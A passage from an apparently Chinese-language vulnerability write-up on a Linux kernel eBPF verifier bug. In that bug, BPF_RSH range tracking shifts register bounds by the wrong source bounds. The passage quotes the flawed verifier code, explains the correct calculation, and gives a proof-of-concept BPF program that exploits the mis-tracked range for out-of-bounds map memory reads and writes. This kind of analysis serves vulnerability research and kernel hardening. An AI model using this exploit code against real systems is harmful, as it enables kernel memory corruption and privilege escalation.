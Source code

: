 ```
/* RSH by a negative number is undefined, and the BPF_RSH is an 
 * unsigned shift, so make the appropriate casts. 
 */ 
        if (min_val &lt; 0 || dst_reg-&gt;min_value &lt; 0) 
            dst_reg-&gt;min_value = BPF_REGISTER_MIN_RANGE; 
        else 
            dst_reg-&gt;min_value = (u64)(dst_reg-&gt;min_value) &gt;&gt; min_val;  // &lt;-- [3] 
        if (dst_reg-&gt;max_value != BPF_REGISTER_MAX_RANGE) 
            dst_reg-&gt;max_value &gt;&gt;= max_val;     &lt;-- [4]
        break; 
// ... 
`}`
```

[3]、[4]处的操作是根据源寄存器的min_value和max_value 进行右移操作获得目的寄存器的min_value和max_value，然而计算错误了，这相当于：

```
dst_reg-&gt;min_value = (dst_reg-&gt;min_value) &gt;&gt; src_reg-&gt;min_value
dst_reg-&gt;max_value = (dst_reg-&gt;max_value) &gt;&gt; src_reg-&gt;max_value
```

但右移操作实际上是除法操作，要获得目的寄存器的最大值，应该用目的寄存器的最大值除以源寄存器的最小值，所以正确操作应该是：

```
dst_reg-&gt;min_value = (dst_reg-&gt;min_value) &gt;&gt; src_reg-&gt;max_value
dst_reg-&gt;max_value = (dst_reg-&gt;max_value) &gt;&gt; src_reg-&gt;min_value
```

所以poc 构造如下，这个版本的内核还未引入BPF_JLE，所以都用BPF_JGE来设置寄存器的范围：

```
static int load_my_prog()
`{`
    struct bpf_insn my_prog[] = `{`

        BPF_LD_MAP_FD(BPF_REG_9,ctrl_mapfd),
        BPF_MAP_GET(0,BPF_REG_8),     
        BPF_MOV64_REG(BPF_REG_6, BPF_REG_0),         //addr r_dst = (r0)            
        BPF_MOV64_REG(BPF_REG_7, BPF_REG_0),         //addr r_dst = (r0)            
        BPF_MOV64_IMM(BPF_REG_0,0x0),            

        BPF_LDX_MEM(BPF_DW,BPF_REG_3,BPF_REG_6,0),    
        BPF_LDX_MEM(BPF_DW,BPF_REG_4,BPF_REG_6,8),    

        BPF_JMP_IMM(BPF_JGE, BPF_REG_3, 0, 1),
        BPF_MOV64_IMM(BPF_REG_0,0x0),            
        BPF_JMP_IMM(BPF_JGE, BPF_REG_3, 0x1000, 7),

        BPF_JMP_IMM(BPF_JGE, BPF_REG_4, 0, 1),
        BPF_MOV64_IMM(BPF_REG_0,0x0),            
        BPF_JMP_IMM(BPF_JGE, BPF_REG_4, 1024, 4),

        BPF_ALU64_REG(BPF_RSH, BPF_REG_3, BPF_REG_4), 
        BPF_ALU64_REG(BPF_ADD, BPF_REG_7, BPF_REG_3),

        BPF_LDX_MEM(BPF_DW,BPF_REG_0,BPF_REG_7,0),    
        BPF_STX_MEM(BPF_DW,BPF_REG_6,BPF_REG_0,0x10), 

        BPF_MOV64_IMM(BPF_REG_0,0x0),            
        BPF_EXIT_INSN(),

    `}`;
    return bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER,my_prog,sizeof(my_prog),"GPL",0);
`}`
```
